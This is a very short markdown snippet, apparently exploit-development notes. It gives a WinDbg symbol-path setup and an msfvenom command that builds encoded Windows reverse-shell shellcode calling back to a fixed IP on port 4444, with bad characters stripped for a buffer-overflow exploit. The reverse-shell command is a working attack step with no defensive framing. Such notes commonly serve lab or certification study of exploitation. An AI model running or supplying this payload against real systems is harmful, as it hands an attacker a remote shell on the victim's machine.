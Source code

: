 ### Symbol Search Path
```
srv*C:\Symbols*https://msdl.microsoft.com/download/symbols
> .reload /f
```

### Shellcode msfvenom
 ```
 msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.70 LPORT=4444 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
 ```

